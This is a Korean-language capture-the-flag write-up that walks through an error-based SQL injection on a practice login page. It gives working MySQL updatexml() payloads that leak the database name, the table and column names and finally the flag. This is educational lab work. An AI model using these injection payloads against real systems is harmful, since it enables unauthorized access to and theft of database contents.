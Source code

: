 # DB 데이터 추출 2
Error Based SQL Injection

http://ctf.segfaulthub.com:9999/sqli_2/login.php

---
로그인 화면.

일단 아무 거나 넣어서 로그인을 시도해보자.

![1](https://user-images.githubusercontent.com/106296883/233789180-d87715f8-46de-45cd-9af1-660e789e417d.PNG)
```
id : nor' 
```
nor' 을 치니까 SQL syntax error 가 떳다.   
MySQL 을 사용하는 것을 확인할 수 있다.   
MySQL 구문을 이용해서 진행해야 한다.

일단 기본 구조를 생각해보자.
```
select ??? from ??? where id = ''
```
일 것이다. 아이디는 유니크해야 하기 때문이다.

일단 Error Based SQL Injection Function 을 사용하자.
```
1' and updatexml(null,concat(0x3a,'test'),null) and '1'='1  
```
위 구문을 id 칸에 넣어보자.

![2](https://user-images.githubusercontent.com/106296883/233789426-1615dcc8-a304-48ea-aeae-f2e895b9daf9.PNG)

:test 파일을 찾을 수 없다는 논리 에러가 떳다.

EBSIF 가 성공적으로 실행됐다는 의미이다.

```
1' and updatexml(null,concat(0x3a,(select 'test')),null) and '1'='1  
```
역시 같은 에러가 발생한다.

SQL Injection 이 가능하다고 판단할 수 있다.

먼저 DB 이름을 확인해보자
```
1' and updatexml(null,concat(0x3a,(select database())),null) and '1'='1  
```
![3](https://user-images.githubusercontent.com/106296883/233789816-1411f969-7df4-46bc-b10d-fa727c6c1619.PNG)

sqli_2    
DB 이름을 확인했다.

다음은 table 이름 확인
```
select table_name from information_schema.tables where table_schema='sqli_2' 
```
```
1' and updatexml(null,concat(0x3a,(select table_name from information_schema.tables where table_schema='sqli_2' )),null) and '1'='1  
```
![4](https://user-images.githubusercontent.com/106296883/233789874-80424b26-17ae-4643-b33e-79791cfffad5.PNG)

1개 이상의 결과가 출력되려고 해서 해당 오류가 발생했다.

limit 를 이용해서 하나씩 출력하게 만들자.

limit 0,1 = 첫 번째 데이터에서 1개만 출력
```
1' and updatexml(null,concat(0x3a,(select table_name from information_schema.tables where table_schema='sqli_2' limit 0,1)),null) and '1'='1  
```
![5](https://user-images.githubusercontent.com/106296883/233790001-d5418ba0-c7b4-4e62-9838-ce0cfd34f03e.PNG)

원하는 테이블이 바로 나왔다.

이제는 column 이름을 찾아보자.
```
select column_name from information_schema.columns where table_name='flag_table' limit 0,1
```
```
1' and updatexml(null,concat(0x3a,(select column_name from information_schema.columns where table_name='flag_table' limit 0,1)),null) and '1'='1  
```
![6](https://user-images.githubusercontent.com/106296883/233790079-4c4aafde-d99d-43d0-8e05-ed9a8974cc8d.PNG)

바로 column 이름까지 확인.

그렇다면 데이터를 추출하자.
```
select flag from flag_tabel
```
```
    1' and updatexml(null,concat(0x3a,(select flag from flag_table)),null) and '1'='1  
```
![7](https://user-images.githubusercontent.com/106296883/233790227-d4462402-2fb0-4479-8497-cb3f5b6ede32.PNG)

flag 획득!

